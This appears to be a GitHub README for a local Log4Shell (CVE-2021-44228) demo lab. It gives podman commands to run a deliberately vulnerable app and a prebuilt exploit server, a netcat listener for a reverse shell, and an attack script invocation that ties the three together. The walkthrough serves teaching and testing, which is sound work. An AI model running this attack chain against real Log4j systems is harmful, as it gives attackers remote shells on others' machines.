

# log4shell CVE-2021-44228 - demo :)

### 1. Run log4shell vuln app

```bash
podman run  -p 8080:8080 quay.io/apoczeka/log4shell-vuln:latest
```


### 2. Run "exploit server"

```bash
podman run -p 1389:1389 -p 8888:8888  quay.io/apoczeka/log4shell -i <host_address> -l 1389 -p 8888
```

<host_address> is your host machine address from WIFI or LAN interface\
\
If you run it on a computer that has the address 192.168.15.107 you should run:\

```bash
podman run -p 1389:1389 -p 8888:8888  quay.io/apoczeka/log4shell -i 192.168.15.107 -l 1389 -p 8888
```

### 3. Listen for revers shell

```bash
nc -l 5555
````

### 4. Attack!

```bash
./attack-revers.sh <vuln_app> <exploit_server> <revers_host>
```

For example:

```bash
./attack-revers.sh localhost:8080 192.168.15.107:1389 192.168.15.107:5555
```



### 5. Links:
https://github.com/christophetd/log4shell-vulnerable-app.git
https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592
